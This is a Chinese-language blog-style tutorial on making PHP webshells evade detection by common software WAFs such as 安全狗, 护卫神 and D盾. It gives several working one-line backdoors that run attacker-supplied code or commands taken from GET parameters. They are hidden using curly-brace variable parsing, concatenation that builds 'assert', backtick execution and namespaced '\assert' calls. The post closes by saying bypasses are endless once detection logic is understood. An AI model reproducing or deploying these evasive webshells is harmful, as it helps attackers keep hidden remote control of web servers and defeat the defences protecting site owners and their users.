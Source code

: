 ![](https://p5.ssl.qhimg.com/t01e613f50352582fc4.png)

## 前言

提到webshell免杀，方法无外乎对静态特征的变形，编码，或利用语言特性绕过。  
计算机中有很多符号，它们在编程语言中占据一席之地，这些符号作为运算符号，标识符号或起到特殊含义。  
本文以PHP为例介绍一些利用符号免杀方法。

## 免杀

#### WAF检测

通过对安全狗、护卫神、D盾等常见软WAF的测试，发现WAF查杀主要依赖两种检测方法  
1.静态检测：通过匹配特征来查找webshell。如危险函数，文件特征码等。  
2.语法语义检测：通过对语法语义的分析，通过对代码抽丝剥茧实现对危险函数捕捉，例如: 危险函数(可控参数)

#### 括号

**圆括号：** 在编程中，主要用在表达式、函数参数、指针定义等方面  
**方括号：**一般用于定义数组  
**花括号：** 定义变量处理，字符串变量后面有{ }相当于数组、规定作用域

在变量间接引用中进行定界，避免歧义。例如 \\${\\$my\_var\[8\]}与\\${\\$my\_var}\[8\]的区分

```
${xxx}  括起来的要当成变量处理。
$a{4}  和中括号[]一样都是把某个字符串变量当成数组处理
```

利用花括号的特性，在双引号对声明变量，并利用圆括号干扰waf对语法的检测

```
 <?php
$_=$_GET['pass'];
$white = "(${eval($_)})";
```

#### 引号

**单引号**：被单引号包裹的特殊字符将无意义，内容将作为字符串。  
**双引号**：与单引号类似，但被包裹中的特殊符号将会解析，例如 $ 符号  
**反引号**：执行运算符，在多数语言中可进行执行命令。php中（执行运算符）与shell\_exec函数等同

在php语言的特性中，双引号内的变量会被解析。  
这时$b的值为 assert，可利用php的此特性进行拼接字符或是绕过语法。

```
$a="s"."e"."r";
$b="as$a".'t';
```

利用执行运算符执行命令，避免了检测危险函数实现免杀。

```
function fun($p){  echo `$p`; }
$a=$_GET['x'];
fun($a);
```

#### 斜线

**反斜线**： 反斜线一般是起到转义字符作用。  
例如

```
\"   双引号 "
\\   反斜线  \
\n   换行  
\r   送出 
\t   跳位(TAB)
\\$  表示 $
```

**反斜线 在php中还有一种用法，就是命名空间**  
函数前加“\\”反斜线调用命名空间下的函数，如果单独使用，就是调用根命名空间

利用用命名空间干扰函数的特征，\\n来干扰对语法的检测

```
 <?php
$a = $_GET['a'];
$b = "\n";
\assert($b.=$a);
?>
```

#### 引申

那么是否还有其它符号可以免杀？下面以php为例再介绍几种符号：

```
^ ：(xor)异或运算符
~ ：(not)取反运算符
++ ：递增运算符
-- ： 递减运算符
```

## 总结

上文简单介绍了一些符号在免杀中的用法，只要摸透了WAF的脾气（查杀原理），绕过的方法也就层出不穷。